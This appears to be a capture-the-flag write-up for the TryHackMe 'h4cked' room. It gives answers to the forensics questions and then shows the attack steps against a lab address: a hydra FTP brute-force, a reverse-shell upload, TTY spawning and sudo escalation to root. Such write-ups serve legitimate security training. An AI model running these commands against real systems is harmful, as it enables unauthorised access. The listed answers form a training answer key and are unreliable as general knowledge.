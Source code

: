 # [h4cked](https://tryhackme.com/room/h4cked)

> Darshan Patel

## Overview

| Tables | Description |
| ------ | ----------- |
| Challenge Name | h4ckef |
| Difficulty | Easy |
| Tags | security, forensics, wireshark, pcap|

---

## Index
- [Analysis](#task-file-analysis)
- [Hacking back](#gain-access)

---

### Task File Analysis

Critical to use **follow streams** so that it is viable to analyse packets and their transmissions

![stream](./assets/stream.png)

What service is the attacker trying to access?

`ftp`

There is a very popular tool by Van Hauser which can be used to brute force a series of services. What is the name of this tool?

`hydra`

The attacker is trying to log on with a specific username. What is the username?

`jenny`

What is the user's password?

`password123`

What is the current FTP working directory after the attacker logged in?

`/var/www/html`

The attacker uploaded a backdoor. What is the backdoor's filename?

`shell.php`

The backdoor can be downloaded from a specific URL, as it is located inside the uploaded file. What is the full URL?

 `http://pentestmonkey.net/tools/php-reverse-shell`

Which command did the attacker manually execute after getting a reverse shell?

`whoami`

What's the computer hostname?

`wir3`

Which command did the attacker execute to spawn a new TTY shell?

`python3 -c 'import pty; pty.spawn("/bin/bash")'`

Which command was executed to gain a root shell?

`sudo su`

The attacker downloaded something from GitHub. What is the name of the GitHub project?

`reptile`

The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called?

`rootkit`

---

### Gain Access

```bash
export IP=10.10.40.43
```

Brute forcing our way into the ftp server.

```bash
hydra -t 64 -l jenny -P ~/wordlists/passwords/rockyou.txt ftp://$IP
```

![hydra](./assets/hydra_brute.png)

Now that we have access, we can upload our own reverse-shell to gain access to the machine.

Modifying the default pentestmonkey php reverse-shell and putting that onto the ftp server so we can access it.

![ftp reverse shell](./assets/ftp_rev.png)

Followed by opening
```bash
open -j http://$IP/revshell.php
```

Gives us a shell we can access. Then we stabilise it using the same python code as before.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Followed by:
```bash
su jenny # We have jenny's credentials from earlier
sudo su
```

And we can now navigate to `/root/Reptile` and grab the flag!

_**Complete!**_


